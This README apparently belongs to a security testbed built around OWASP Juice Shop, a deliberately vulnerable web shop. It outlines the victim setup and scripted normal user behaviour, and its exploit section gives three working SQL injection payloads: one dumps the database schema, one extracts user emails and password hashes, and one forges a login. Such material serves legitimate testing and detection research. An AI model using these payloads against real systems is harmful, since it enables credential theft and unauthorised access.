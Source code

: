 # Juice shop 

## Overview:

    [OWASP Web shop application](https://owasp.org/www-project-juice-shop/) with multiple vulnerabilities.

## Victim:

    Modern web application with multiple vulnerabilities, run at port 3000. Using provided docker for deployment.

## Normal:

    User actions include:
        register -> new account for user
        login    -> login user
        shopping -> put random item in basket
                 -> leave feedback to product
        complain -> upload complaint file
        checkout -> set address, delivery method and payment details
    User first registers, then logs in and chooses random between shopping, complaining and completing the checkout.

## Exploit:

    Running debian10 with selenium user.
    Multiple attacks possible:

### SQL-Injection - SQL Schema

    Run malicious query at /rest/products/search:
        qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--

### SQL-Injection - Credentials

    Run malicious query at /rest/products/search:
        qwert')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users--

### SQL-Injection - Non Existing User Login
    
    Run malicious query as email while login:
        ' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as 'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4' as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
